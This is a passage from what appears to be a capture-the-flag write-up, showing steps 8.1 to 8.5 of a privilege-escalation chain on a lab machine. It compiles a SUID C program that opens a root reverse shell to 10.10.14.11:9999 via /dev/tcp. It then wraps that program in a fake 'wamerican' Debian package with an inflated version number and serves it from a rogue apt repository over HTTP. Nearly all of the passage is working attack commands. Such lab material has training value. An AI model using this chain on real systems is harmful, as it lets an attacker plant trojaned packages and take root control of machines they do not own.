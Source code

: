 #### 8.1. Creating SUID binary 
```
# cat > /tmp/data.c << EOF
#include<stdlib.h>
int main() { setresuid(0,0,0); system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.11/9999 0>&1'"); return 0;}
EOF
# gcc -static /tmp/data.c -o /tmp/data
# chmod u+s /tmp/data
```
Note: payload can also spawn a local `bash` shell instead of reverse shell


#### 8.2. Create a fake Debian (`.deb`) package
```
# rm -r /tmp/wamerican_8.0
# mkdir /tmp/wamerican_8.0 && cd /tmp/wamerican_8.0
# mkdir DEBIAN
# cat > DEBIAN/control << EOF
Package: wamerican
Version: 8.0
Section: 123
Priority: optional
Architecture: amd64
Maintainer: 123
Description: 123
EOF
# mkdir -p usr/bin/ && mv /tmp/data usr/bin/
# cd .. && dpkg-deb --build wamerican_8.0
dpkg-deb: building package 'data' in 'data_1.2.3.deb'.
```
Note: 
- version must be higher than the one installed to allow `apt-get upgrade`
- installed packages can be listed via `dpkg --list`
```
www-admin-data@onetwoseven:/$ dpkg --list | grep wamerican
ii  wamerican                              7.1-1          [FORMATTING CUT]
```

#### 8.3. Standard repository (path: `/debian`)
```
# mkdir -p /tmp/repo/debian && cp /tmp/wamerican_8.0.deb /tmp/repo/debian
# cd /tmp/repo/ && dpkg-scanpackages debian /dev/null | gzip -9c > debian/Packages.gz
dpkg-scanpackages: warning: Packages in archive but missing from override file:
dpkg-scanpackages: warning:   data
dpkg-scanpackages: info: Wrote 1 entries to output Packages file.
```


#### 8.4. Correcting missing paths for `devuan`
```
# cd /tmp/repo
# mkdir -p devuan/dists/ascii/main/binary-amd64
# cp debian/* devuan/dists/ascii/main/binary-amd64
# mkdir -p devuan/debian/
# cp debian/* devuan/debian/
```

#### 8.5. Serving the repository
```
# cd /tmp/repo && python -m SimpleHTTPServer 80
```
